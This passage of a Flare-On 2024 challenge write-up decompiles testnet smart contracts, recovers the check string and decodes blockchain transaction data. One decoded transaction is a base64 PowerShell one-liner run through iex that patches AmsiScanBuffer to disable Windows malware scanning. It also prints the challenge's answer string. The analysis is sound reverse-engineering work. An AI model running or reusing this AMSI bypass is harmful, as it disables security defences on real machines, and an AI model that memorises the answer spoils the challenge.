                                                                    require(15 < v0.length, Panic(50)); // access an out-of-bounds or negative index of bytesN array or slice
                                                                    if (bytes1(v0[15] >> 248 << 248) == 0x2100000000000000000000000000000000000000000000000000000000000000) {
                                                                        v2 = v3.data;
                                                                        v4 = bytes20(0x5324eab94b236d4d1456edc574363b113cebf09d000000000000000000000000);
                                                                        if (v3.length < 20) {
                                                                            v4 = v5 = bytes20(v4);
                                                                        }
                                                                        v6 = v7 = v4 >> 96;
                                                                    } else {
                                                                        v6 = v8 = 0;
                                                                    }
                                                                } else {
                                                                    v6 = v9 = 0xce89026407fb4736190e26dcfd5aa10f03d90b5c;
                                                                }
                                                            } else {
                                                                v6 = v10 = 0x506dffbcdaf9fe309e2177b21ef999ef3b59ec5e;
                                                            }
                                                        } else {
                                                            v6 = v11 = 0x26b1822a8f013274213054a428bdbb6eba267eb9;
                                                        }
                                                    } else {
                                                        v6 = v12 = 0xf7fc7a6579afa75832b34abbcf35cb0793fce8cc;
                                                    }
                                                } else {
                                                    v6 = v13 = 0x83c2cbf5454841000f7e43ab07a1b8dc46f1cec3;
                                                }
                                            } else {
                                                v6 = v14 = 0x632fb8ee1953f179f2abd8b54bd31a0060fdca7e;
                                            }
                                        } else {
                                            v6 = v15 = 0x3bd70e10d71c6e882e3c1809d26a310d793646eb;
                                        }
                                    } else {
                                        v6 = v16 = 0xe2e3dd883af48600b875522c859fdd92cd8b4f54;
                                    }
                                } else {
                                    v6 = v17 = 0x4b9e3b307f05fe6f5796919a3ea548e85b96a8fe;
                                }
                            } else {
                                v6 = v18 = 0x6371b88cc8288527bc9dab7ec68671f69f0e0862;
                            }
                        } else {
                            v6 = v19 = 0x53fbb505c39c6d8eeb3db3ac3e73c073cd9876f8;
                        }
                    } else {
                        v6 = v20 = 0x84abec6eb54b659a802effc697cdc07b414acc4a;
                    }
                } else {
                    v6 = v21 = 0x87b6cf4edf2d0e57d6f64d39ca2c07202ab7404c;
                }
            } else {
                v6 = v22 = 0x53387f3321fd69d1e030bb921230dfb188826aff;
            }
        } else {
            v6 = v23 = 0x40d3256eb0babe89f0ea54edaa398513136612f5;
        }
    } else {
        v6 = v24 = 0x76d76ee8823de52a1a431884c2ca930c5e72bff3;
    }
    MEM[MEM[64]] = address(v6);
    return address(v6);
}

// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.

function function_selector( function_selector) public payable { 
    MEM[64] = 128;
    require(!msg.value);
    if (msg.data.length >= 4) {
        if (0x5684cff5 == function_selector >> 224) {
            testStr(string);
        }
    }
    fallback();
}
```

Function `testStr` takes a `str` as input and checks it byte by byte. If a check fails, function
returns a different address. Only if all bytes of `str` are correct program returns the correct
address:
```
  0x5324eab94b236d4d1456edc574363b113cebf09d
```

The correct `str` is:
```
if (bytes1(v0[0] >> 248 << 248) == 0x67000000...) {  // g
if (bytes1(v0[1] >> 248 << 248) == 0x69000000...) {  // i
if (bytes1(v0[2] >> 248 << 248) == 0x56000000...) {  // V
if (bytes1(v0[3] >> 248 << 248) == 0x33000000...) {  // 3
if (bytes1(v0[4] >> 248 << 248) == 0x5f000000...) {  // _
if (bytes1(v0[5] >> 248 << 248) == 0x4d000000...) {  // M
if (bytes1(v0[6] >> 248 << 248) == 0x33000000...) {  // 3
if (bytes1(v0[7] >> 248 << 248) == 0x5f000000...) {  // _
if (bytes1(v0[8] >> 248 << 248) == 0x70000000...) {  // p
if (bytes1(v0[9] >> 248 << 248) == 0x34000000...) {  // 4
if (bytes1(v0[10] >> 248 << 248) == 0x79000000...) { // y
if (bytes1(v0[11] >> 248 << 248) == 0x4c000000...) { // L
if (bytes1(v0[12] >> 248 << 248) == 0x30000000...) { // 0
if (bytes1(v0[13] >> 248 << 248) == 0x34000000...) { // 4
if (bytes1(v0[14] >> 248 << 248) == 0x64000000...) { // d
if (bytes1(v0[15] >> 248 << 248) == 0x21000000...) { // !
```

So if the Web3 code calls the smart contract `0x9223f0630c598a200f99c5d4746531d10319a569` with the
`giV3_M3_p4yL04d!` string it will return a new address `0x5324eab94b236d4d1456edc574363b113cebf09d`.
Let's check this address
[here](https://testnet.bscscan.com/address/0x5324eab94b236d4d1456edc574363b113cebf09d):



This time we a several transactions and a new smart contract:
```solidity
// Decompiled by library.dedaub.com
// 2024.09.28 13:35 UTC
// Compiled using the solidity compiler version 0.8.26

// Data structures and variables inferred from the use of storage instructions
uint256[] array_0; // STORAGE[0x0]

function 0x14a(bytes varg0) private { 
    require(msg.sender == address(0xab5bc6034e48c91f3029c4f1d9101636e740f04d), Error('Only the owner can call this function.'));
    require(varg0.length <= uint64.max, Panic(65)); // failed memory allocation (too much memory)
    v0 = 0x483(array_0.length);
    if (v0 > 31) {
        v1 = v2 = array_0.data;
        v1 = v3 = v2 + (varg0.length + 31 >> 5);
        while (v1 < v2 + (v0 + 31 >> 5)) {
            STORAGE[v1] = STORAGE[v1] & 0x0 | uint256(0);
            v1 = v1 + 1;
        }
    }
    v4 = v5 = 32;
    if (varg0.length > 31 == 1) {
        v6 = array_0.data;
        v7 = v8 = 0;
        while (v7 < varg0.length & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) {
            STORAGE[v6] = MEM[varg0 + v4];
            v6 = v6 + 1;
            v4 = v4 + 32;
            v7 = v7 + 32;
        }
        if (varg0.length & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0 < varg0.length) {
            STORAGE[v6] = MEM[varg0 + v4] & ~(uint256.max >> ((varg0.length & 0x1f) << 3));
        }
        array_0.length = (varg0.length << 1) + 1;
    } else {
        v9 = v10 = 0;
        if (varg0.length) {
            v9 = MEM[varg0.data];
        }
        array_0.length = v9 & ~(uint256.max >> (varg0.length << 3)) | varg0.length << 1;
    }
    return ;
}

function fallback() public payable { 
    revert();
}

function 0x5c880fcb() public payable { 
    v0 = 0x483(array_0.length);
    v1 = new bytes[](v0);
    v2 = v3 = v1.data;
    v4 = 0x483(array_0.length);
    if (v4) {
        if (31 < v4) {
            v5 = v6 = array_0.data;
            do {
                MEM[v2] = STORAGE[v5];
                v5 += 1;
                v2 += 32;
            } while (v3 + v4 <= v2);
        } else {
            MEM[v3] = array_0.length >> 8 << 8;
        }
    }
    v7 = new bytes[](v1.length);
    MCOPY(v7.data, v1.data, v1.length);
    v7[v1.length] = 0;
    return v7;
}

function 0x483(uint256 varg0) private { 
    v0 = v1 = varg0 >> 1;
    if (!(varg0 & 0x1)) {
        v0 = v2 = v1 & 0x7f;
    }
    require((varg0 & 0x1) - (v0 < 32), Panic(34)); // access to incorrectly encoded storage byte array
    return v0;
}

function owner() public payable { 
    return address(0xab5bc6034e48c91f3029c4f1d9101636e740f04d);
}

function 0x916ed24b(bytes varg0) public payable { 
    require(4 + (msg.data.length - 4) - 4 >= 32);
    require(varg0 <= uint64.max);
    require(4 + varg0 + 31 < 4 + (msg.data.length - 4));
    require(varg0.length <= uint64.max, Panic(65)); // failed memory allocation (too much memory)
    v0 = new bytes[](varg0.length);
    require(!((v0 + ((varg0.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) > uint64.max) | (v0 + ((varg0.length + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) + 32 + 31 & 0xffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffe0) < v0)), Panic(65)); // failed memory allocation (too much memory)
    require(varg0.data + varg0.length <= 4 + (msg.data.length - 4));
    CALLDATACOPY(v0.data, varg0.data, varg0.length);
    v0[varg0.length] = 0;
    0x14a(v0);
}

// Note: The function selector is not present in the original solidity code.
// However, we display it for the sake of completeness.

function __function_selector__() private { 
    MEM[64] = 128;
    require(!msg.value);
    if (msg.data.length >= 4) {
        if (0x5c880fcb == msg.data[0] >> 224) {
            0x5c880fcb();
        } else if (0x8da5cb5b == msg.data[0] >> 224) {
            owner();
        } else if (0x916ed24b == msg.data[0] >> 224) {
            0x916ed24b();
        }
    }
    fallback();
}
```

There is nothing really interesting here except the `owner()` function which returns the address
`0xab5bc6034e48c91f3029c4f1d9101636e740f04d`. Let's visit it
[here](https://testnet.bscscan.com/address/0xab5bc6034e48c91f3029c4f1d9101636e740f04d):



Although there is no smart contract here, we have several transactions. Let's have a look at the
transactions. Each transaction has a "More Details" section. If we click it, we see an
**Input Data** section with some base64 encoded data:



The base64 decoding does not give anything meaningful. But let's check the other transactions:



This for example gives us a more meaningful decoding:
```
┌─[01:04:28]─[✗:1]─[ispo@ispo-glaptop2]─[~/ctf/flare-on-challenges/flare-on-2024/08_clearlyfake]
└──> echo NDEgM2EgN2EgN2IgM2MgN2MgM2QgNGEgNTAgNGUgNWUgNzYgNDQgNTUgNjcgMTEgNTAgNWUgNjYgMTUgM2EgNTUgM2YgMTcgM2MgM2QgNTEgMTUgNjEgNTUgNTkgNDEgNmQgMzkgNGUgNDIgNjMgNmIgN2MgNDEgMjIgNjUgNjAgMGEgNmMgNjUgNjM= | base64 -d 
41 3a 7a 7b 3c 7c 3d 4a 50 4e 5e 76 44 55 67 11 50 5e 66 15 3a 55 3f 17 3c 3d 51 15 61 55 59 41 6d 39 4e 42 63 6b 7c 41 22 65 60 0a 6c 65 63
```

These numbers look like printable ASCII:
```py
import binascii
a = '41 3a 7a 7b 3c 7c 3d 4a 50 4e 5e 76 44 55 67 11 50 5e 66 15 3a 55 3f 17 3c 3d 51 15 61 55 59 41 6d 39 4e 42 63 6b 7c 41 22 65 60 0a 6c 65 63'
binascii.unhexlify(a.replace(' ', ''))
```

```
  b'A:z{<|=JPN^vDUg\x11P^f\x15:U?\x17<=Q\x15aUYAm9NBck|A"e`\nlec'
```

Gibberish, but let's keep it in mind and check all other transactions:
```
0x6423585149989222c4b391101ccc8b9e92a7c7ef0ec8ea7bb29df86b0fd9e1cb
- (not base64)


0xae4711c6e9d6d8f5d00a88e1adb35595bc7d7a73130e87356e3e71e65e17f337
NDEgM2EgN2EgN2IgM2MgN2MgM2QgNGEgNTAgNGUgNWUgNzYgNDQgNTUgNjcgMTEgNTAgNWUgNjYgMTUgM2EgNTUgM2YgMTcgM2MgM2QgNTEgMTUgNjEgNTUgNTkgNDEgNmQgMzkgNGUgNDIgNjMgNmIgN2MgNDEgMjIgNjUgNjAgMGEgNmMgNjUgNjM= | base64 -d
41 3a 7a 7b 3c 7c 3d 4a 50 4e 5e 76 44 55 67 11 50 5e 66 15 3a 55 3f 17 3c 3d 51 15 61 55 59 41 6d 39 4e 42 63 6b 7c 41 22 65 60 0a 6c 65 63
'A:z{<|=JPN^vDUg\x11P^f\x15:U?\x17<=Q\x15aUYAm9NBck|A"e`\nlec'


0xdbf0e117fb3d4db0cd746835cfc4eb026612ac36a80f9f0f248dce061d90ae54
MDggN2MgMzUgMGQgNzYgMzkgN2QgNWMgNmIgMDIgMWMgMTMgMTkgMWEgMjYgN2IgNmQgNjAgMmUgN2QgNzQgMGQgNzQgN2MgN2QgMDUgNmIgNzcgMjIgMWUgMDUgMjAgMmQgN2QgNzIgNTIgMmEgMmQgMzMgMzcgNjggMjAgMjAgMWMgNTcgMjkgMjE
08 7c 35 0d 76 39 7d 5c 6b 02 1c 13 19 1a 26 7b 6d 60 2e 7d 74 0d 74 7c 7d 05 6b 77 22 1e 05 20 2d 7d 72 52 2a 2d 33 37 68 20 20 1c 57 29 21
'\x08|5\rv9}\\k\x02\x1c\x13\x19\x1a&{m`.}t\rt|}\x05kw"\x1e\x05 -}rR*-37h  \x1cW)!'


0x820549b2eb77e1078490eea9d2b819c219f0cfef921abaa6580d8cf628a8cd5f
MGYgNmMgMzYgM2IgMzYgMjcgNmUgNDYgNWMgMmYgM2YgNjEgMjUgMjQgM2MgNmUgNDYgNWMgMjMgNmMgMjcgM2UgMjQgMjg= | base64 -d
0f 6c 36 3b 36 27 6e 46 5c 2f 3f 61 25 24 3c 6e 46 5c 23 6c 27 3e 24 28
"\x0fl6;6'nF\\/?a%$<nF\\#l'>$("


0xef06996ee51d24cc6bfedcaa57bdc31e56975ec98d018f211b7db114fc94b573
MjkgMzUgNzIgMjggMjAgM2MgNTcgMTQgMjggMjMgMjggMjEgMjAgNmUgNmY= | base64 -d
1f 29 35 72 28 20 3c 57 14 28 23 28 21 20 6e 6f
'\x1f)5r( <W\x14(#(! no'


0xb2405b84d625688c380a6ebf8e20526e9024b2b2b15700eb83437e2e19812ebe
MDEgMjMgMmUgMzYgNjUgM2IgMjYgNWIgNWEgMjEgNmMgMzUgM2EgMmMgM2MgNmUgNWIgNDcgNjYgMjMgMmYgNzIgMzEgMjcgMmIgMTIgNDAgMjMgM2YgMzUgM2MgMjAgM2I=
01 23 2e 36 65 3b 26 5b 5a 21 6c 35 3a 2c 3c 6e 5b 47 66 23 2f 72 31 27 2b 12 40 23 3f 35 3c 20 3b
"\1#.6e;&[Z!l5:,<n[Gf#/r1'+\x12@#?5< ;"


0x05660d13d9d92bc1fc54fb44c738b7c9892841efc9df4b295e2b7fda79756c47
W3NZc3RFbS5UZXh0LmVOQ09EaW5HXTo6dW5pY29kRS5nZXRTdHJpbkcoW3NZc3RFbS5jT052RXJ0XTo6RnJvTWJhU0U2NHN0UkluRygiSXdCU0FHRUFjd0IwQUdFQUxRQnRBRzhBZFFCekFHVUFjd0FnQUVFQWJRQnpBR2tBTFFCVEFHTUFZUUJ1QUMwQVFnQjFBR1lBWmdCbEFISUFJQUJ3QUdFQWRBQmpBR2dBSUFCY0FHNEFEUUFLQUNRQVpnQm9BR1lBZVFCakFDQUFQUUFnQUVBQUlnQU5BQW9BZFFCekFHa0FiZ0JuQUNBQVV3QjVBSE1BZEFCbEFHMEFPd0FOQUFvQWRRQnpBR2tBYmdCbkFDQUFVd0I1QUhNQWRBQmxBRzBBTGdCU0FIVUFiZ0IwQUdrQWJRQmxBQzRBU1FCdUFIUUFaUUJ5QUc4QWNBQlRBR1VBY2dCMkFHa0FZd0JsQUhNQU93QU5BQW9BY0FCMUFHSUFiQUJwQUdNQUlBQmpBR3dBWVFCekFITUFJQUJtQUdnQVpnQjVBR01BSUFCN0FBMEFDZ0FnQUNBQUlBQWdBRnNBUkFCc0FHd0FTUUJ0QUhBQWJ3QnlBSFFBS0FBaUFHc0FaUUJ5QUc0QVpRQnNBRE1BTWdBaUFDa0FYUUFOQUFvQUlBQWdBQ0FBSUFCd0FIVUFZZ0JzQUdrQVl3QWdBSE1BZEFCaEFIUUFhUUJqQUNBQVpRQjRBSFFBWlFCeUFHNEFJQUJKQUc0QWRBQlFBSFFBY2dBZ0FFY0FaUUIwQUZBQWNnQnZBR01BUVFCa0FHUUFjZ0JsQUhNQWN3QW9BRWtBYmdCMEFGQUFkQUJ5QUNBQWFBQk5BRzhBWkFCMUFHd0FaUUFzQUNBQWN3QjBBSElBYVFCdUFHY0FJQUJ3QUhJQWJ3QmpBRTRBWVFCdEFHVUFLUUE3QUEwQUNnQWdBQ0FBSUFBZ0FGc0FSQUJzQUd3QVNRQnRBSEFBYndCeUFIUUFLQUFpQUdzQVpRQnlBRzRBWlFCc0FETUFNZ0FpQUNrQVhRQU5BQW9BSUFBZ0FDQUFJQUJ3QUhVQVlnQnNBR2tBWXdBZ0FITUFkQUJoQUhRQWFRQmpBQ0FBWlFCNEFIUUFaUUJ5QUc0QUlBQkpBRzRBZEFCUUFIUUFjZ0FnQUV3QWJ3QmhBR1FBVEFCcEFHSUFjZ0JoQUhJQWVRQW9BSE1BZEFCeUFHa0FiZ0JuQUNBQWJnQmhBRzBBWlFBcEFEc0FEUUFLQUNBQUlBQWdBQ0FBV3dCRUFHd0FiQUJKQUcwQWNBQnZBSElBZEFBb0FDSUFhd0JsQUhJQWJnQmxBR3dBTXdBeUFDSUFLUUJkQUEwQUNnQWdBQ0FBSUFBZ0FIQUFkUUJpQUd3QWFRQmpBQ0FBY3dCMEFHRUFkQUJwQUdNQUlBQmxBSGdBZEFCbEFISUFiZ0FnQUdJQWJ3QnZBR3dBSUFCV0FHa0FjZ0IwQUhVQVlRQnNBRkFBY2dCdkFIUUFaUUJqQUhRQUtBQkpBRzRBZEFCUUFIUUFjZ0FnQUd3QWNBQkJBR1FBWkFCeUFHVUFjd0J6QUN3QUlBQlZBRWtBYmdCMEFGQUFkQUJ5QUNBQWFRQjRBR0VBYWdCdEFIb0FMQUFnQUhVQWFRQnVBSFFBSUFCbUFHd0FUZ0JsQUhjQVVBQnlBRzhBZEFCbEFHTUFkQUFzQUNBQWJ3QjFBSFFBSUFCMUFHa0FiZ0IwQUNBQWJBQndBR1lBYkFCUEFHd0FaQUJRQUhJQWJ3QjBBR1VBWXdCMEFDa0FPd0FOQUFvQWZRQU5BQW9BSWdCQUFBMEFDZ0FOQUFvQVFRQmtBR1FBTFFCVUFIa0FjQUJsQUNBQUpBQm1BR2dBWmdCNUFHTUFEUUFLQUEwQUNnQWtBRzRBZWdCM0FIUUFad0IyQUdRQUlBQTlBQ0FBV3dCbUFHZ0FaZ0I1QUdNQVhRQTZBRG9BVEFCdkFHRUFaQUJNQUdrQVlnQnlBR0VBY2dCNUFDZ0FJZ0FrQUNnQUtBQW5BT01BYlFCekFPMEFMZ0FuQUNzQUp3QmtBR3dBYkFBbkFDa0FMZ0JPQUU4QWNnQnRBRUVBYkFCcEFIb0FSUUFvQUZzQVl3QklBR0VBVWdCZEFDZ0FOd0F3QUNvQU13QXhBQzhBTXdBeEFDa0FLd0JiQUdNQWFBQmhBSElBWFFBb0FERUFNUUF4QUNrQUt3QmJBRU1BYUFCaEFISUFYUUFvQUZzQVFnQjVBSFFBWlFCZEFEQUFlQUEzQURJQUtRQXJBRnNBUXdCSUFHRUFVZ0JkQUNnQU1RQXdBRGtBS3dBMkFEQUFMUUEyQURBQUtRQXJBRnNBUXdCb0FHRUFVZ0JkQUNnQU5RQTBBQ3NBTVFBMEFDa0FLUUFnQUMwQWNnQmxBSEFBYkFCaEFHTUFaUUFnQUZzQVl3Qm9BR0VBVWdCZEFDZ0FXd0JpQUZrQVZBQkZBRjBBTUFCNEFEVUFZd0FwQUNzQVd3QkRBRWdBWVFCeUFGMEFLQUJiQUdJQVdRQlVBRVVBWFFBd0FIZ0FOd0F3QUNrQUt3QmJBRU1BYUFCQkFGSUFYUUFvQURFQU1nQXpBQ3NBTWdBdEFESUFLUUFyQUZzQVF3QklBR0VBY2dCZEFDZ0FXd0JpQUhrQWRBQmxBRjBBTUFCNEFEUUFaQUFwQUNzQVd3QkRBR2dBUVFCU0FGMEFLQUJiQUdJQVdRQlVBRVVBWFFBd0FIZ0FOZ0JsQUNrQUt3QmJBR01BYUFCaEFISUFYUUFvQUZzQVlnQjVBRlFBUlFCZEFEQUFlQUEzQUdRQUtRQXBBQ0lBS1FBTkFBb0FKQUJ1QUdvQWVRQjNBR2NBYndBZ0FEMEFJQUJiQUdZQWFBQm1BSGtBWXdCZEFEb0FPZ0JIQUdVQWRBQlFBSElBYndCakFFRUFaQUJrQUhJQVpRQnpBSE1BS0FBa0FHNEFlZ0IzQUhRQVp3QjJBR1FBTEFBZ0FDSUFKQUFvQUNnQUp3REJBRzBBY3dEc0FGTUFZd0FuQUNzQUp3RGtBRzRBUWdCMUFHWUFaZ0FuQUNzQUp3QmxBSElBSndBcEFDNEFUZ0JQQUhJQWJRQkJBRXdBU1FCNkFFVUFLQUJiQUVNQVNBQmhBRklBWFFBb0FGc0FZZ0JaQUZRQVJRQmRBREFBZUFBMEFEWUFLUUFyQUZzQVF3Qm9BR0VBY2dCZEFDZ0FXd0JpQUZrQVZBQmxBRjBBTUFCNEFEWUFaZ0FwQUNzQVd3QmpBRWdBUVFCeUFGMEFLQUJiQUdJQVdRQlVBRVVBWFFBd0FIZ0FOd0F5QUNrQUt3QmJBRU1BU0FCaEFISUFYUUFvQURFQU1BQTVBQ2tBS3dCYkFHTUFTQUJoQUZJQVhRQW9BRnNBUWdCNUFGUUFaUUJkQURBQWVBQTBBRFFBS1FBcEFDQUFMUUJ5QUdVQWNBQnNBR0VBWXdCbEFDQUFXd0JqQUdnQVFRQlNBRjBBS0FBNUFESUFLUUFyQUZzQVF3Qm9BR0VBY2dCZEFDZ0FXd0JpQUhrQVZBQkZBRjBBTUFCNEFEY0FNQUFwQUNzQVd3QmpBR2dBWVFCU0FGMEFLQUJiQUdJQVdRQlVBRVVBWFFBd0FIZ0FOd0JpQUNrQUt3QmJBR01BYUFCaEFGSUFYUUFvQUZzQVFnQlpBSFFBUlFCZEFEQUFlQUEwQUdRQUtRQXJBRnNBWXdCb0FHRUFjZ0JkQUNnQU1nQXhBQ3NBT0FBNUFDa0FLd0JiQUdNQWFBQmhBRklBWFFBb0FETUFNUUFyQURrQU5BQXBBQ2tBSWdBcEFBMEFDZ0FrQUhBQUlBQTlBQ0FBTUFBTkFBb0FXd0JtQUdnQVpnQjVBR01BWFFBNkFEb0FWZ0JwQUhJQWRBQjFBR0VBYkFCUUFISUFid0IwQUdVQVl3QjBBQ2dBSkFCdUFHb0FlUUIzQUdjQWJ3QXNBQ0FBV3dCMUFHa0FiZ0IwQURNQU1nQmRBRFVBTEFBZ0FEQUFlQUEwQURBQUxBQWdBRnNBY2dCbEFHWUFYUUFrQUhBQUtRQU5BQW9BSkFCb0FHRUFiQUI1QUNBQVBRQWdBQ0lBTUFCNEFFSUFPQUFpQUEwQUNnQWtBR1FBWkFCdUFHY0FJQUE5QUNBQUlnQXdBSGdBTlFBM0FDSUFEUUFLQUNRQWVBQmtBR1VBY1FBZ0FEMEFJQUFpQURBQWVBQXdBREFBSWdBTkFBb0FKQUJ0QUdJQWNnQm1BQ0FBUFFBZ0FDSUFNQUI0QURBQU53QWlBQTBBQ2dBa0FHVUFkd0JoQUhFQUlBQTlBQ0FBSWdBd0FIZ0FPQUF3QUNJQURRQUtBQ1FBWmdCeEFIb0FkQUFnQUQwQUlBQWlBREFBZUFCREFETUFJZ0FOQUFvQUpBQjVBR1lBYmdCcUFHSUFJQUE5QUNBQVd3QkNBSGtBZEFCbEFGc0FYUUJkQUNBQUtBQWtBR2dBWVFCc0FIa0FMQUFrQUdRQVpBQnVBR2NBTEFBa0FIZ0FaQUJsQUhFQUxBQWtBRzBBWWdCeUFHWUFMQUFyQUNRQVpRQjNBR0VBY1FBc0FDc0FKQUJtQUhFQWVnQjBBQ2tBRFFBS0FGc0FVd0I1QUhNQWRBQmxBRzBBTGdCU0FIVUFiZ0IwQUdrQWJRQmxBQzRBU1FCdUFIUUFaUUJ5QUc4QWNBQlRBR1VBY2dCMkFHa0FZd0JsQUhNQUxnQk5BR0VBY2dCekFHZ0FZUUJzQUYwQU9nQTZBRU1BYndCd0FIa0FLQUFrQUhrQVpnQnVBR29BWWdBc0FDQUFNQUFzQUNBQUpBQnVBR29BZVFCM0FHY0Fid0FzQUNBQU5nQXBBQT09IikpfGlleA==
[sYstEm.Text.eNCODinG]::unicodE.getStrinG([sYstEm.cONvErt]::FroMbaSE64stRInG("IwBSAGEAcwB0AGEALQBtAG8AdQBzAGUAcwAgAEEAbQBzAGkALQBTAGMAYQBuAC0AQgB1AGYAZgBlAHIAIABwAGEAdABjAGgAIABcAG4ADQAKACQAZgBoAGYAeQBjACAAPQAgAEAAIgANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0AOwANAAoAdQBzAGkAbgBnACAAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMAOwANAAoAcAB1AGIAbABpAGMAIABjAGwAYQBzAHMAIABmAGgAZgB5AGMAIAB7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEcAZQB0AFAAcgBvAGMAQQBkAGQAcgBlAHMAcwAoAEkAbgB0AFAAdAByACAAaABNAG8AZAB1AGwAZQAsACAAcwB0AHIAaQBuAGcAIABwAHIAbwBjAE4AYQBtAGUAKQA7AA0ACgAgACAAIAAgAFsARABsAGwASQBtAHAAbwByAHQAKAAiAGsAZQByAG4AZQBsADMAMgAiACkAXQANAAoAIAAgACAAIABwAHUAYgBsAGkAYwAgAHMAdABhAHQAaQBjACAAZQB4AHQAZQByAG4AIABJAG4AdABQAHQAcgAgAEwAbwBhAGQATABpAGIAcgBhAHIAeQAoAHMAdAByAGkAbgBnACAAbgBhAG0AZQApADsADQAKACAAIAAgACAAWwBEAGwAbABJAG0AcABvAHIAdAAoACIAawBlAHIAbgBlAGwAMwAyACIAKQBdAA0ACgAgACAAIAAgAHAAdQBiAGwAaQBjACAAcwB0AGEAdABpAGMAIABlAHgAdABlAHIAbgAgAGIAbwBvAGwAIABWAGkAcgB0AHUAYQBsAFAAcgBvAHQAZQBjAHQAKABJAG4AdABQAHQAcgAgAGwAcABBAGQAZAByAGUAcwBzACwAIABVAEkAbgB0AFAAdAByACAAaQB4AGEAagBtAHoALAAgAHUAaQBuAHQAIABmAGwATgBlAHcAUAByAG8AdABlAGMAdAAsACAAbwB1AHQAIAB1AGkAbgB0ACAAbABwAGYAbABPAGwAZABQAHIAbwB0AGUAYwB0ACkAOwANAAoAfQANAAoAIgBAAA0ACgANAAoAQQBkAGQALQBUAHkAcABlACAAJABmAGgAZgB5AGMADQAKAA0ACgAkAG4AegB3AHQAZwB2AGQAIAA9ACAAWwBmAGgAZgB5AGMAXQA6ADoATABvAGEAZABMAGkAYgByAGEAcgB5ACgAIgAkACgAKAAnAOMAbQBzAO0ALgAnACsAJwBkAGwAbAAnACkALgBOAE8AcgBtAEEAbABpAHoARQAoAFsAYwBIAGEAUgBdACgANwAwACoAMwAxAC8AMwAxACkAKwBbAGMAaABhAHIAXQAoADEAMQAxACkAKwBbAEMAaABhAHIAXQAoAFsAQgB5AHQAZQBdADAAeAA3ADIAKQArAFsAQwBIAGEAUgBdACgAMQAwADkAKwA2ADAALQA2ADAAKQArAFsAQwBoAGEAUgBdACgANQA0ACsAMQA0ACkAKQAgAC0AcgBlAHAAbABhAGMAZQAgAFsAYwBoAGEAUgBdACgAWwBiAFkAVABFAF0AMAB4ADUAYwApACsAWwBDAEgAYQByAF0AKABbAGIAWQBUAEUAXQAwAHgANwAwACkAKwBbAEMAaABBAFIAXQAoADEAMgAzACsAMgAtADIAKQArAFsAQwBIAGEAcgBdACgAWwBiAHkAdABlAF0AMAB4ADQAZAApACsAWwBDAGgAQQBSAF0AKABbAGIAWQBUAEUAXQAwAHgANgBlACkAKwBbAGMAaABhAHIAXQAoAFsAYgB5AFQARQBdADAAeAA3AGQAKQApACIAKQANAAoAJABuAGoAeQB3AGcAbwAgAD0AIABbAGYAaABmAHkAYwBdADoAOgBHAGUAdABQAHIAbwBjAEEAZABkAHIAZQBzAHMAKAAkAG4AegB3AHQAZwB2AGQALAAgACIAJAAoACgAJwDBAG0AcwDsAFMAYwAnACsAJwDkAG4AQgB1AGYAZgAnACsAJwBlAHIAJwApAC4ATgBPAHIAbQBBAEwASQB6AEUAKABbAEMASABhAFIAXQAoAFsAYgBZAFQARQBdADAAeAA0ADYAKQArAFsAQwBoAGEAcgBdACgAWwBiAFkAVABlAF0AMAB4ADYAZgApACsAWwBjAEgAQQByAF0AKABbAGIAWQBUAEUAXQAwAHgANwAyACkAKwBbAEMASABhAHIAXQAoADEAMAA5ACkAKwBbAGMASABhAFIAXQAoAFsAQgB5AFQAZQBdADAAeAA0ADQAKQApACAALQByAGUAcABsAGEAYwBlACAAWwBjAGgAQQBSAF0AKAA5ADIAKQArAFsAQwBoAGEAcgBdACgAWwBiAHkAVABFAF0AMAB4ADcAMAApACsAWwBjAGgAYQBSAF0AKABbAGIAWQBUAEUAXQAwAHgANwBiACkAKwBbAGMAaABhAFIAXQAoAFsAQgBZAHQARQBdADAAeAA0AGQAKQArAFsAYwBoAGEAcgBdACgAMgAxACsAOAA5ACkAKwBbAGMAaABhAFIAXQAoADMAMQArADkANAApACkAIgApAA0ACgAkAHAAIAA9ACAAMAANAAoAWwBmAGgAZgB5AGMAXQA6ADoAVgBpAHIAdAB1AGEAbABQAHIAbwB0AGUAYwB0ACgAJABuAGoAeQB3AGcAbwAsACAAWwB1AGkAbgB0ADMAMgBdADUALAAgADAAeAA0ADAALAAgAFsAcgBlAGYAXQAkAHAAKQANAAoAJABoAGEAbAB5ACAAPQAgACIAMAB4AEIAOAAiAA0ACgAkAGQAZABuAGcAIAA9ACAAIgAwAHgANQA3ACIADQAKACQAeABkAGUAcQAgAD0AIAAiADAAeAAwADAAIgANAAoAJABtAGIAcgBmACAAPQAgACIAMAB4ADAANwAiAA0ACgAkAGUAdwBhAHEAIAA9ACAAIgAwAHgAOAAwACIADQAKACQAZgBxAHoAdAAgAD0AIAAiADAAeABDADMAIgANAAoAJAB5AGYAbgBqAGIAIAA9ACAAWwBCAHkAdABlAFsAXQBdACAAKAAkAGgAYQBsAHkALAAkAGQAZABuAGcALAAkAHgAZABlAHEALAAkAG0AYgByAGYALAArACQAZQB3AGEAcQAsACsAJABmAHEAegB0ACkADQAKAFsAUwB5AHMAdABlAG0ALgBSAHUAbgB0AGkAbQBlAC4ASQBuAHQAZQByAG8AcABTAGUAcgB2AGkAYwBlAHMALgBNAGEAcgBzAGgAYQBsAF0AOgA6AEMAbwBwAHkAKAAkAHkAZgBuAGoAYgAsACAAMAAsACAAJABuAGoAeQB3AGcAbwAsACAANgApAA=="))|iex


0x539ab8268334453b5f293948a89fe1b9a75aaa640571046416956c65bc611a79
- (base64 but decoding makes no sense)


